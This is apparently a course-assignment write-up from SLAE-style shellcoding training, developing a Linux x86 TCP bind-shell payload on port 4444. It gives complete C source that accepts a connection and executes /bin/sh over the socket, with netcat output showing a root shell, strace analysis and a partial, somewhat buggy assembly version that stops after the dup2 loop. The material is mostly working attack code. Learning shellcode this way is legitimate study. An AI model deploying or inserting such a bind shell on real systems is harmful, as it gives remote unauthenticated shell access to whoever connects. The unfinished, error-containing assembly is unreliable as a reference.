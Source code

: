 * Assignment 1

** Requirements

- Create a Shell_Bind_TCP shellcode
  - Bind to a port
  - Execs Shell on incoming connection
- Port number should be easily configurable

** Strategy

My approach to building a tcp bind shell shellcode will be to:

- Create a C program which illustrates the basic functionality
- Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
- Lookup the system calls and see what arguments and structures they take
- Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
- Debug issues as of course there will be :)

** The C program

From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

- Socket: Open a socket over which we will communicate. Essentially a file descriptor
- Bind: Bind our socket to an interface on our system
- Listen: Tell our system that we are ready to start accepting connections
- Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted

Functions we won't worry about:

- Send
- Recv
- Connect
- Close

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

The final step after we get our redirection going is we just need to
run a program, in our case ~/bin/sh~ and its output and input should
be connected to our socket. We can run this program using ~execve~.

So lets get some code going!

#+NAME: bindshell.c
#+BEGIN_SRC c
  #include <stdio.h>
  #include <netinet/in.h>
  #define PORT 4444

  int main(int argc, char **argv) {
    // Create a socket
    int lsock = socket(AF_INET, SOCK_STREAM, 0);

    // Setup servr side config struct
    // We configure:
    // The family:IPv4
    // The interface: 0.0.0.0 (any)
    // The port: port#
    struct sockaddr_in config;
    config.sin_family = AF_INET;
    config.sin_addr.s_addr = INADDR_ANY;
    // The htons() function converts the
    // unsigned short integer hostshort from host byte
    // order to network byte order.
    config.sin_port = htons(PORT);

    // Bind the created socket with the interface
    // specified in the configuration
    bind(lsock, (struct sockaddr *)&config, sizeof(config));

    // Listen on the socket
    listen(lsock, 0);

    // Accept the incoming connection
    int csock = accept(lsock, NULL, NULL);

    // Redirect stdin, stdout, and stderror
    dup2(csock, 0);
    dup2(csock, 1);
    dup2(csock, 2);

    // Execute a shell
    execve("/bin/sh", NULL, NULL);
};
#+END_SRC

Compiling this code with ~gcc bindshell.c -o bindshell~ gives us a
nice executable. Running the executable with ~./bindshell~ and then
looking at our network using ~netstat -antp~ yields something very
interesting...

#+Name: netstat-output
#+BEGIN_SRC sh
root@blahblah:~# netstat -atp Active Internet connections (servers and
established) Proto Local Address Foreign Address State PID/Program
name tcp *:4444 *:* LISTEN 1657/bindshell
#+END_SRC

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running ~nc
-nv -nv 127.0.0.1 4444~ we will get:

#+Name: netcat-output
#+BEGIN_SRC sh
root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
open id uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly...

** Analysis of the C program

We can use a tool called ~strace~ to help us learn more about what system calls
our bind shell c program is making. Running ~strace ./bindshell~, connecting
to the bindshell with ~nc -nv 127.0.0.1 4444~ and filtering out the noise
we will see:

#+Name: strace-bindshell
#+BEGIN_SRC sh
root@blahblah:~/shared/SLAE/slae/exercise1# strace ./bindshell
execve("./bindshell", ["./bindshell"], [/* 41 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3,
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", [0], [/* 0 vars */])  = 0
#+END_SRC

Ok. It looks like our code makes some system calls that seem to align with the
functions we know to be part of our socket programming formula along with the
stdin, stdout, and stderror redirection and our ~execve~ call to run /bin/sh.

Lets lookup the system calls to find out their system call numbers. We will
consult ~/usr/include/i386-linux-gnu/asm/unistd_32.h~ for these numbers...

When we consult the listing of syscalls we encounter a bit of confusion. The
only system calls that seem to closely match up with what we saw in our strace
are:

#+Name: syscall-numbers
#+BEGIN_SRC c
#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socketcall 102
#define __NR_mbind 274
#+END_SRC

This is strange. ~execve~ and ~dup2~ look good but there doesn't seem to be
any syscall numbers for socket,listen, or accept. socketcall seems a bit odd
as does mbind so we will have to look into this.

Consulting ~man socketcall~ we learn:

#+Name: man-socketcall
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);

/**
socketcall() is a common kernel entry point for the socket system
calls.  call determines which socket function to invoke.  args points
to a block containing the actual arguments, which are passed through
to the appropriate call.

User programs should call the appropriate functions by their usual
names.  Only standard library implementors and kernel hackers need to
know about socketcall().
**/

#+END_SRC

So that seems to explain things a little bit. The first argument to
socketcall is a number that represents the actual socket api function
that we want to be calling. Ok... Where do we get the number associated
with each of the api calls?

A little Google search for socketcall call numbers brings us:

[[http://jkukunas.blogspot.com/2010/05/x86-linux-networking-system-calls.html][socketcall call numbers]]

In this blog post we confirm our knowledge about the first argument of
socketcall as well as learn about ~/usr/include/linux/net.h~

Lets checkout that file and see if we can learn the numbers we are looking
for.

#+Name: net.h
#+BEGIN_SRC c
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	  2		/* sys_bind(2)			*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
// ... snip
#+END_SRC

So it looks like the ~mbind~ syscall we saw earlier might not be
necessary as it looks like there is a ~bind~ syscall number that we
can call with ~socketcall~.  We'll try that out and see how that goes.

Now that we know the syscalls and their corresponding numbers, we need
to figure out their function signatures so that we know what sort of
arguments we need to be passing to them when we invoke them. The
metnod signatures look like the following:


#+Name: signatures
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);
int socket(int domain, int type, int protocol);
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int listen(int sockfd, int backlog);
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
int dup2(int oldfd, int newfd);
int execve(const char *filename, char *const argv[], char *const envp[]);
// ... snip
#+END_SRC

We also leveraged 2 structs in our C program which we will most likely need
to replicate.

#+Name: netinet/in.h
#+BEGIN_SRC c
#include <netinet/in.h>

// All pointers to socket address structures are often cast to pointers
// to this type before use in various functions and system calls:

struct sockaddr {
    unsigned short    sa_family;    // address family, AF_xxx
    char              sa_data[14];  // 14 bytes of protocol address
};


// IPv4 AF_INET sockets:

struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};

#+END_SRC


Ok... Using what we have gathered from our analysis lets take an attempt at
writing some assembly!

** Assembly: Take 1

Lets lookup some values of constants:

~/usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h~

#+Name: /usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h
#+BEGIN_SRC c
#define AF_INET		2	/* Internet IP Protocol 	*/
#+END_SRC

Find source..................

#+Name: Find source
#+BEGIN_SRC c
#define SOCK_STREAM	1		/* stream (connection) socket	*/
#+END_SRC


#+Name: Find source
#+BEGIN_SRC c
#define INADDR_ANY ((unsigned long int) 0x00000000)
#+END_SRC

#+BEGIN_SRC asm
global _start
;; Note: We will store 2 file descriptors along the way
;; We will put the listening socket file descriptor in edi
;; We will put the connection socket file descriptor in esi

section .text
  _start:
    ;; Create a socket
    ;; int socketcall(int call, unsigned long *args);
    ;; int socket(int domain, int type, int protocol);
    ;; #define SYS_SOCKET	1		/* sys_socket(2)		*/
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov eax, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov ebx, 0x1 ; sys_socket syscall number

    ;; Put the socket() args on the stack
    xor ecx, ecx
    push ecx ; INADDR_ANY Accept on any interface 0x00000000
    push ebx ; SOCK_STREAM is the type of socket 1
    push 0x2 ; Protocol AF_INET is the IP Protocol 2

    mov ecx, esp ; Save pointer to args for the socket() call
    int 0x80 ; call sys_socket

    ; Save the returned listening socket file descriptor
    xor edi, edi
    mov edi, eax

    ;; Bind the socket
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov eax, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov ebx, 0x2 ; sys_bind syscall number

    ;; Start building the sockaddr_in structure
    ;; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ; sin_addr=0 (INADDR_ANY)
    ; INADDR_ANY Accept on any interface 0x00000000
    xor ecx, ecx
    push ecx

    ;; 4444 is 0x115c in little endian. Network byte order is
    ;; Big endian so we swap the byte ordering
    push word 0x5c11 ; sin_port=4444 (network byte order)
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; move pointer to sockaddr_in structure

    ;; In the initial code we use sizeof to derive the addrlen
    ;; If we print the results of that we get 0x10 which is 16 bytes
    push 0x10 ;addrlen=16
    push ecx  ;struct sockaddr pointer
    push edi  ;sockfd
    mov ecx, esp ;save pointer to bind() args
    int 0x80 ; call sys_bind

    ;; Call listen and prepare for accepting connections
    xor eax, eax
    mov eax, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov ebx, 0x4 ; sys_listen syscall number

    ;; Place listen's arguments on the stack
    xor ecx, ecx
    push ecx ; backlog we set to zero
    push edi ; push the socket file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_listen

    ;; Call accept
    xor eax, eax
    mov eax, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov ebx, 0x5 ; sys_accept syscall number
    ;; Place accept's arguments on the stack
    ;; We don't need a peer socket???... so we
    ;; use nulls for addrlen and sockaddr struct
    xor ecx, ecx
    push ecx ; Push NULL (0x00000000) for addrlen
    push ecx ; Push NULL (0x00000000) for sockaddr struct
    push edi ; Push the listening sockets file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_accept

    ;; Save the returned connection socket file descriptor
    xor ebx, ebx
    mov ebi, eax

    ;; Call dup2 for stdin, stdout, and stderr in a loop
    mov cl, 0x2 ;loop counter
  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2


#+END_SRC
